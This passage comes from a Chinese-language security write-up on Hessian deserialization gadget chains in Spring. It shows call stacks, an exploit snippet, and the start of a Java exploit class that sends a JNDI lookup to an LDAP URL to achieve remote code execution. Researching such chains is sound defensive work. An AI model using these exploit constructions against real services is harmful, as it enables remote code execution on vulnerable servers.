     后面部分也是一致的，只需要在 exp 中加入
    
    ```bash
    HashSet<String> set = new HashSet<>();
    set.add(url);
    setFiled(simpleJndiBeanFactory, "shareableResources", set);
    ```
    
    调用栈：
    
    ```bash
    doInContext:155, JndiTemplate$1 (org.springframework.jndi)
    execute:87, JndiTemplate (org.springframework.jndi)
    lookup:152, JndiTemplate (org.springframework.jndi)
    lookup:179, JndiTemplate (org.springframework.jndi)
    lookup:95, JndiLocatorSupport (org.springframework.jndi)
    doGetSingleton:211, SimpleJndiBeanFactory (org.springframework.jndi.support)
    doGetType:219, SimpleJndiBeanFactory (org.springframework.jndi.support)
    getType:184, SimpleJndiBeanFactory (org.springframework.jndi.support)
    ...
    ```
    
-   根据分析很容易理解 exp 构造，在 exp 构造中，很多类没有无参数构造方法，这里参考 marshalsec 中的设计，非常巧妙
    

### Spring AbstractBeanFactoryPointcutAdvisor 链

#### 利用链

```bash
SimpleJndiBeanFactory.getBean() (org.springframework.jndi.support)
AbstractBeanFactoryPointcutAdvisor.getAdvice()  (org.springframework.aop.support)  // 主要
AbstractPointcutAdvisor.equals()   (org.springframework.aop.support)
HotSwappableTargetSource.equals()    (org.springframework.aop.target) 
HashMap.putVal()
HashMap.put()
MapDeserializer.readMap()
SerializerFactory.readMap()
Hessian2Input.readObject()
```

#### EXP

```bash
package org.dili.hessian;

import com.caucho.hessian.io.Hessian2Input;
import com.caucho.hessian.io.Hessian2Output;
import com.caucho.hessian.io.SerializerFactory;
import org.springframework.aop.support.DefaultBeanFactoryPointcutAdvisor;
import org.springframework.aop.target.HotSwappableTargetSource;
import org.springframework.jndi.support.SimpleJndiBeanFactory;
import org.springframework.scheduling.annotation.AsyncAnnotationAdvisor;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.util.HashMap;

public class AbstractBeanFactoryPointcutAdvisorHessian {
    public static void main(String[] args) throws Exception {
        // ldap url
        String url = "ldap://127.0.0.1:1389/ppkhjx";

        SimpleJndiBeanFactory beanFactory = new SimpleJndiBeanFactory();
        // String SimpleJndiBeanFactory = "org.springframework.jndi.support.SimpleJndiBeanFactory";
```